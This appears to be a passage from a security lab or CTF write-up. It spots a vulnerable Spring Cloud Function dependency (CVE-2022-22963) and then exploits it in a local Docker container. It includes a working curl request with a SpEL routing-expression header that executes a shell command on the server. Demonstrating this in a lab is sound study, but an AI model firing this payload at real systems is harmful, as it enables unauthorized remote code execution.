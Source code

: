 ```xml
        <artifactId>WebApp</artifactId>
        <version>0.0.1-SNAPSHOT</version>
        <name>WebApp</name>
        <description>Demo project for Spring Boot</description>
SNIP
         <dependency>
                        <groupId>org.springframework.cloud</groupId>
                        <artifactId>spring-cloud-function-web</artifactId>
                        <version>3.2.2</version>
         </dependency>

SNIP
```

One of the dependencies is spring cloud 3.2.2 and has an RCE vuln:  
[CVE-2022-22963](https://spring.io/security/cve-2022-22963)  
[POC](https://github.com/me2nuk/CVE-2022-22963)  

```bash
git clone https://github.com/me2nuk/CVE-2022-22963.git
docker pull me2nuk/cves:2022-22963
docker run -it -p 8080:8080 --name=vuln me2nuk/cves:2022-22963

  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::               (v2.4.13)

2023-03-12 22:58:23.346  INFO 8 --- [           main] com.example.SampleApplication            : Starting SampleApplication v2.0.0.RELEASE using Java 11.0.14.1 on 7e192f55c2e6 with PID 8 (/home/rce/spring-cloud-function-3.1.6/spring-cloud-function-samples/function-sample-pojo/target/function-sample-pojo-2.0.0.RELEASE.jar started by root in /home/rce/spring-cloud-function-3.1.6/spring-cloud-function-samples/function-sample-pojo)
2023-03-12 22:58:23.351  INFO 8 --- [           main] com.example.SampleApplication            : No active profile set, falling back to default profiles: default
kj2023-03-12 22:58:25.451  INFO 8 --- [           main] o.s.c.f.web.flux.FunctionHandlerMapping  : FunctionCatalog: org.springframework.cloud.function.context.catalog.BeanFactoryAwareFunctionRegistry@5e2a6991
2023-03-12 22:58:26.019  INFO 8 --- [           main] o.s.b.web.embedded.netty.NettyWebServer  : Netty started on port 8080
2023-03-12 22:58:26.044  INFO 8 --- [           main] com.example.SampleApplication            : Started SampleApplication in 3.649 seconds (JVM running for 11.741)
```
```bash
curl -X POST  http://0.0.0.0:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("touch /tmp/pwned")' --data-raw 'data' -v
```
```bash
docker exec -it --user=root vuln ls /tmp
hsperfdata_root  pwned
```

